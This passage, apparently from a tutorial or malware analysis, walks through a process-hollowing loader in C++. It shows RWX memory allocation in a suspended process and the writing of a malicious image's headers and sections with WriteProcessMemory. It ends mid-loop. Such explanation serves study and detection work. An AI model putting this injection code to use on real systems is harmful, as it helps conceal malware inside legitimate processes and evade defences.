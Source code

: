 The loader then runs `VirtualAllocEx` to allocate memory for the malware:

```cpp

//...
PVOID pRemoteImage = VirtualAllocEx(
  pProcessInfo->hProcess,
  pPEB->ImageBaseAddress,
  pSourceHeaders->OptionalHeader.SizeOfImage,
  MEM_COMMIT | MEM_RESERVE,
  PAGE_EXECUTE_READWRITE
);

if (!pRemoteImage) {
  printf("VirtualAllocEx call failed\r\n");
  return;
}

//...
```

> Not that it allocates read-write-execute (RWX) memory (`PAGE_EXECUTE_READWRITE`) in the suspended process to provide room for the malicious code substitution. 

We can now copy over the source image headers into the newly allocated memory in the destination process:

```cpp
//...
if (!WriteProcessMemory(
  pProcessInfo->hProcess, 				
  pPEB->ImageBaseAddress, 
  pBuffer, 
  pSourceHeaders->OptionalHeader.SizeOfHeaders, 
  0
)) {
  printf("Error writing process memory\r\n");
  return;
}
//...

```

The loader writes the malware's sections into the memory space of the target process using the `WriteProcessMemory` method:

```cpp
//...
for (DWORD x = 0; x < pSourceImage->NumberOfSections; x++) {
  if (!pSourceImage->Sections[x].PointerToRawData)
    continue;

    PVOID pSectionDestination = 
    (PVOID)((DWORD)pPEB->ImageBaseAddress + pSourceImage->Sections[x].VirtualAddress);

    printf("Writing %s section to 0x%p\r\n", pSourceImage->Sections[x].Name, pSectionDestination);

    if (!WriteProcessMemory(
      pProcessInfo->hProcess,	
      pSectionDestination,
      &pBuffer[pSourceImage->Sections[x].PointerToRawData],
      pSourceImage->Sections[x].SizeOfRawData,
      0
    )) {
      printf ("Error writing process memory\r\n");
      return;
    }
```